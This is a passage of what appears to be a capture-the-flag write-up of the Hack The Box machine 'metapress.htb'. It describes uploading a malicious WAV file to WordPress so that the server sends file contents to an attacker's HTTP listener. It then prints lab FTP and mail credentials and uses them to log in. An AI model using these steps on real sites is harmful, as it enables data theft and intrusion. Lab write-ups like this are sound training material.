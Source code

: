 ### HTTP Server Startup

```bash
python3 -m http.server 8080
```

### Malicious File Upload

1. Login to WordPress with the `manager` account
2. Upload `payload.wav` to the Media Library
3. The server makes an HTTP request containing the base64-encoded file content

**Decoding the result:**

```bash
echo "BASE64_CONTENT" | base64 -d
```

**FTP credentials extracted from wp-config.php:**

```php
define('FTP_USER', 'metapress.htb');
define('FTP_PASS', '9NYS_ii@FyL_p5M2NvJ');
define('FTP_HOST', 'ftp.metapress.htb');
```

<div class="bg-blue-100 dark:bg-blue-900/20 border-l-4 border-blue-500 p-4 my-4 rounded-r-lg">
    <p class="text-blue-800 dark:text-blue-200">
        <i class="fas fa-database mr-2 text-blue-500"></i>
        <strong>FTP credentials obtained\!</strong> FTP server access is possible.
    </p>
</div>



## 📂 Phase 5 — FTP Access and SSH Discovery

### FTP Connection

```bash
ftp 10.10.11.186
# Login: metapress.htb
# Password: 9NYS_ii@FyL_p5M2NvJ
```

### File Enumeration

```bash
ftp> ls -la
ftp> cd mailer
ftp> get send_email.php
```

### send_email.php Analysis

```php
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```
